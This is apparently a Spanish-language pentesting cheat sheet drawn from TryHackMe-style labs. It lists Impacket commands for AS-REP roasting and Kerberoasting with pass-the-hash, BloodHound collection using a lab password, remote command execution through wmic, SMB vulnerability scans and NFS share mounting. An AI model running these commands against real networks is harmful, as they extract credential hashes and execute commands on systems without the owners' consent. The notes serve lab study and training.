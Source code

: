 ### **GetNPUsers**
```Bash
GetNPUsers.py domain/user -no-pass #Obtener hash sin credenciales
```

### **GetUserSPNs**
```Bash
GetUserSPNs.py domain/user:password -dc-ip 10.10.116.29 -request #Obtener SPN
GetUserSPNs.py -dc-ip 10.10.25.146 domain/user -hashes <hash LM>:<hash NTLM> #Identificar usuarios SPN
GetUserSPNs.py -dc-ip 10.10.25.146 raz0rblack.thm/lvetrova -hashes <hash LM>:<hash NTLM> -request #Obtener SPN con hash
```

## **Bloodhound y Neo4j**
```Bash
sudo neo4j console #Inicar neo4j
bloodhound # Iniciar GUI Bloodhound
bloodhound-python -u svc-admin -p management2005 -ns 10.10.193.144 -d spookysec.local -c all #Extraer información del sistema y dominio
```

## **Herramientas impacket**
```Bash
sudo apt-get install python3-impacket
ls -la /opt/impacket
ls -la /usr/share/doc/python3-impacket/examples/
```

## **Ejecutar comandos Windows en Linux**
```Bash
wmic -U <dominio/usuario>%<contraseña> //ip_del_objetivo "cmd.exe /c <comando>"
```

## **Comprobación de vulnerabilidades de SMB**
```
nmap --script=smb-vuln* -p139,445 "ip"
```

## **RPC 111,2049**
### **Rpcbind**
```Bash
rpcinfo #Consultar servicios RPC
showmount -e <IP> #Lista todos los servicios RPC y sus puertos
nmap -sV -p 111 <IP> #Identificar servicios y versiones RPC
rpclient
```

### **NFS**
```Bash
nfsstat #Muestra estadisticas sobre el cliente y servidor NFS
mount -t nfs 10.10.92.58:/users /mnt/razorblack/ #Montar un recurso compartido en local
exportfs -v #Muestra todas las exportaciones activas
nfswatch #Monitorizar el trafico de red NFS
auxiliary/scanner/nfs/nfsmount #Identificar recursos NFS
nmap --script=nfs* -p 111,2049 <IP>
```
